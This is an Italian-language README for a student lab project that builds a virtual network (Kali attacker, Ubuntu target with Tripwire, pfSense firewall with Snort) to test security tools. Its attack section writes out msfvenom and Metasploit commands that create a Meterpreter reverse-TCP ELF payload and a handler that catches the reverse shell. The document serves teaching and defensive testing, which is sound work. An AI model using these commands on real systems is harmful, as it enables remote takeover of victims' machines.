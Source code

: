 
# ProjectAdvancedCybersecurity
Il seguente repository ha lo scopo di illustrare come configurare una rete di macchine virtuali al fine di testare alcuni software legati alla sicurezza informatica. L' architettura viene riportata in figura.
![Architettura della rete](https://github.com/Me77y99/Project-AdvancedCybersecurity/blob/main/Screened-Network.png)
Le macchine virtuali sono le seguenti: 
 - **Target**: Ubuntu 22.04.2 LTS (con installato *Tripwire*)
 - **Attacker**: Kali 2023.1 (con installato *python3*)
 - **Firewall**: Pfsense 2.6.0 (con i pacchetti *Squid* e *Snort*)

Di seguito verranno esplicitati tutti i passi sia per simulare uno scenario di attacco a cui la nostra infrastruttura dovrà rispondere.
> Nota: nel repository si trovano le macchine già configurate (potrebbero esserci delle differenze nell'assegnazione degli indirizzi IP alle varie interfacce di rete o in ulteriori parametri)

***mettere configurazione adpter 

## Kali Attacker
Per effettuare l'attacco la macchina kali necessita di avere installato python3. 
```bash
sudo  apt update &&  sudo  apt upgrade -y
```
```bash
sudo apt install python3
```
Fatto ciò  si può procedere ad effettuare un attacco di reverse shell TCP verso la macchina target tramite *Metasploit*. Aprire 3 terminal:

 1. **Terminale**: Ottenere indirizzo ip del target 
 ```bash
ifconfig
```
 
 2. **Terminale**: Creare il pacchetto malevolo (eseguibile)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.18 LPORT=4444 -f elf -o shell-x86.elf
```
Analizziamo i vari parametri:

-   _msfvenom_: il nome del programma principale, metasploit
-   _-p_: il payload da inserire. Può essere uno scritto da noi o, più comodamente, uno già presente in Metasploit.
-   _LHOST_: l'indirizzo IP al quale l'app infettata si connetterà. Può essere un indirizzo locale come un indirizzo esterno.
-   _LPORT_: la porta da utilizzare. Quella di default è proprio la 4444.
-  _-f_: formato del pacchetto
-   _-o_: il percorso dove andremo a salvare l'applicazione ricompilata, contenente il payload.

 3. **Terminale**: Ora dobbiamo essere pronti per accettare la connessione, quindi prepariamo una sessione attraverso metasplot.
```bash
msfconsle
```
Una volta aperta la console:
```bash
msf6> use exploit/multi/handler
msf6> set payload linux/x86/meterpreter/reverse_tcp
msf6> set LHOST 192.168.1.18
msf6> set LPORT 4444
msf6> exploit

[*] Started reverse handler on 192.168.1.18:4444
[*] Starting the payload handler...
```
Una volta che la vittima avrà installato ed eseguito il file *.elf*  verrà aperta una sessione con una reverse shell che permetterà alla macchina kali infettare il target



## Autori

- [@Mattia Scuriatti](https://github.com/Me77y99)
- [@Gatti Giada](https://github.com/)

